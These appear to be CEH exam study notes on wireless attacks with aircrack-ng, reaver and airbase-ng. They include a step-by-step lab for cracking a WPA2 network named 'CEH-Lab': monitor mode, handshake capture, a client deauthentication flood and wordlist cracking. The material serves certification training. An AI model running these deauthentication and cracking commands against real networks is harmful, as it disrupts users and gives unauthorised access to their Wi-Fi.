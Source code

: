 ### Exam-Critical Reference Table

| Attack Type       | Tool        | Command Example               | Key Flags            |
|-------------------|-------------|--------------------------------|----------------------|
| Handshake Capture | airodump-ng | `--bssid`, `-w capture`        | Must use `wlan0mon`  |
| WPA Cracking      | aircrack-ng | `-a2` for WPA, `-w` wordlist   | Requires .cap file   |
| WPS Brute Force   | reaver      | `-K 1` for Pixie Dust attack   | `-vv` for verbose    |
| Evil Twin         | airbase-ng  | `--essid` for clone name       | Channel must match   |

### Practical Exam Checklist

1. Put interface in monitor mode (`airmon-ng start wlan0`)
2. Capture WPA handshake
3. Perform dictionary attack
4. Test WPS vulnerability
5. Document all findings with screenshots

### Pro Tips:

- **Monitor Mode First**: Always start with `airmon-ng start wlan0`
- **Handshake Timing**: Use `--deauth` when clients are active
- **Exam Trick**: Look for WPS-enabled routers (QSS button)
- **Critical Files**: `capture-01.cap` for handshake analysis
### Real-World Exam Lab

Task: Crack WPA2 network "CEH-Lab"

```
1. airmon-ng start wlan0
```

```
2. airodump-ng wlan0mon
```

```
3. airodump-ng --bssid AP:MAC --channel 6 -w capture wlan0mon
```

```
4. aireplay-ng --deauth 10 -a AP:MAC wlan0mon
```

```
4. aircrack-ng -a2 -w rockyou.txt capture-01.cap
```

# Run these until automatic:

```
airmon-ng start wlan0
```
